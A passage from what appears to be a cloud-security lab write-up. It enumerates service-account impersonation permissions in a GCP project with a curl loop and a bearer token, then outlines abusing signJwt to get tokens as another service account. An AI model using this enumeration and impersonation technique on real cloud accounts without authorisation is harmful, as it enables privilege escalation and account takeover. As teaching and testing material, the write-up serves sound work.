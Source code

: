 
It returns permissions consistent with the service account's bindings to the `roles/analyticshub.viewer` and `roles/bigquery.dataViewer` roles. However, enumeration doesn't reveal any resources. Let's see if this account has been given access to perform actions on other service accounts.
```
└─$ for sa in $(cat serviceaccounts.txt); do
echo "[*] checking $sa"
  curl -s -X POST \
    -H "Authorization: Bearer $analyticstoken" \
    -H "Content-Type: application/json" \
    -d '{
          "permissions": [
            "iam.serviceAccounts.getAccessToken",
            "iam.serviceAccounts.signJwt",
            "iam.serviceAccounts.implicitDelegation",
            "iam.serviceAccounts.actAs"
          ]
        }' \
    "https://iam.googleapis.com/v1/projects/-/serviceAccounts/$sa\:testIamPermissions"
done
[*] checking 771792750903@cloudservices.gserviceaccount.com
{
  "error": {
    "code": 404,
    "message": "Unknown service account",
    "status": "NOT_FOUND"
  }
}
[*] checking 771792750903-compute@developer.gserviceaccount.com
{}
[*] checking analytics@gr-proj-4.iam.gserviceaccount.com
{}
[*] checking payments@gr-proj-4.iam.gserviceaccount.com
{}
[*] checking platform-middleware@gr-proj-4.iam.gserviceaccount.com
{
  "permissions": [
    "iam.serviceAccounts.signJwt"
  ]
}
[*] checking service-771792750903@compute-system.iam.gserviceaccount.com
{}
[*] checking sql-424@gr-proj-4.iam.gserviceaccount.com
{}
[*] checking staging@gr-proj-4.iam.gserviceaccount.com
{}
```

Seems like `analytics@gr-proj-4.iam.gserviceaccount.com` has the `iam.serviceAccounts.signJwt` permission on the `platform-middleware@gr-proj-4.iam.gserviceaccount.com`. This means `analytics` has the ability to sign JWTs as `platform-middleware`.

To abuse the `iam.serviceAccounts.signJwt` permission:
- Create a JWT that claims to be from the target service account and use the IAM Credentials API to have Google sign it for us. 
- Once we have the signed JWT, we’ll exchange it at the OAuth token endpoint to get an access token that lets us act as that service account. 
